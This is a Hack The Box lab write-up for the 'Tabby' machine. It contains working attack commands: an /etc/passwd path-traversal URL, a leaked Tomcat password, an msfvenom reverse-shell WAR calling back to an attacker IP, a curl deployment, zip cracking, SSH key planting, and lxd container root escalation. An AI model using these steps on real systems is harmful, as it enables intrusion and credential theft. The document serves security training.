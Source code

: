 # Box 



![tabby](img/Screenshot_2020-12-24_17-30-24.png)

https://www.hackthebox.eu/home/machines/profile/259

# Profile

 <img src="http://www.hackthebox.eu/badge/image/296177" alt="Hack The Box"> 

https://www.hackthebox.eu/home/users/profile/296177

# Table of Contents

* [Reconnaissance](#Reconnaissance)
* [Exploitation](#exploitation)
* [Post-Exploitation](#post-exploitation)
  + [User](#user)
  + [Root](#root)

# Contents 



## Reconnaissance

Let's start with nmap : 

```bash
nmap -sC -oN scan -sV 10.10.10.194
```

![image-20201226110226334](img/image-20201226110226334.png)

I found a web page where you can do a LFI  http://10.10.10.194/news.php?file=../../../../../etc/passwd

![image-20201226110455401](img/image-20201226110455401.png)

After reading documentation, we can now search for tomcat users : http://10.10.10.194/news.php?file=../../../../../usr/share/tomcat9/etc/tomcat-users.xml 

If you look in the source code page you can see : 

```xml
<user username="tomcat" password="$3cureP4s5w0rd123!" roles="admin-gui,manager-script"/>
```

I find a way to upload a payload : 


 	http://10.10.10.194:8080/manager/text/deploy?path

![image-20201226111814716](img/image-20201226111814716.png)

We can also see ths list of payload available  : http://10.10.10.194:8080/manager/text/list
![image-20201226111858954](img/image-20201226111858954.png)

##  Exploitation

Let's make our own payload to get a reverse_shell  :

```bash
msfvenom -p java/shell_reverse_tcp LHOST=10.10.14.28 LPORT=4444 -f war -o payload.war
```



We upload the file thanks to curl :

```bash
curl -v -u tomcat:\$3cureP4s5w0rd123! --upload-file payload.war  "http://10.10.10.194:8080/manager/text/deploy?path=/payload&update=true"
```

Let's setup nc to receive our shell : 

![image-20201226112207834](img/image-20201226112207834.png)

Activate it :

```
http://10.10.10.194:8080/payload
```

We now get our reverse shell :

![image-20201226112345734](img/image-20201226112345734.png)

## Post-Exploitation

### User

Let's upgrade it, I found python on the machine so we can use :

```bash
/usr/bin/python3.8 -c 'import pty; pty.spawn("/bin/bash")'
```

![image-20201226112757221](img/image-20201226112757221.png)


I found the file /var/www/html/files/16162020_backup.zip which is password protected I decided to download it on my local machine 

![image-20201226113149055](img/image-20201226113149055.png)

Let's setup a python server to download the file : 

```bash
python3.8 -m http.server 4445
```

![image-20201226113512097](img/image-20201226113512097.png)

on our machine : 

```bash
wget http://10.10.10.194:4445/16162020_backup.zip
```

![image-20201226113550788](img/image-20201226113550788.png)

Let's crack it with the rockyou.txt wordlist :

```bash
fcrackzip -u -D -p '/usr/share/wordlists/rockyou.txt' 16162020_backup.zip
```

we get password : 

![image-20201226113833467](img/image-20201226113833467.png)



We can now get to the user ash in ssh.

![image-20201226114208147](img/image-20201226114208147.png)

We know have our user.txt hash. 

I will now add my ssh pub key to the authorized_keys file of ash.

![image-20201226114432079](img/image-20201226114432079.png)

### Root

Let's enumerate the machine thanks to LinPEAS.

After Reconnaissance, we can see we are part of the lxd group :

![image-20201226114721124](img/image-20201226114721124.png)

We can create a container where we have root access, here is the link to the exploit https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation.

We first need to upload an alpine builder :

```bash
wget http://10.10.14.28:4444/alpine-v3.12-x86_64-20201031_1515.tar.gz
```

![image-20201226115611008](img/image-20201226115611008.png)

Let's import our image : 

```bash
lxc image import ./alpine-v3.12-x86_64-20201031_1515.tar.gz 
```

![image-20201226115921228](img/image-20201226115921228.png)

I created an alias to give it a name : 

![image-20201226120129775](img/image-20201226120129775.png)

Now configuration : 

```bash
lxc init htb privesc -c security.privileged=true
lxc config device add privesc mydevice disk source=/ path=/mnt/root recursive=true
```

Execution : 

```bash
lxc start privesc
lxc exec privesc /bin/sh
```


Rooted.

![image-20201226120313901](img/image-20201226120313901.png)






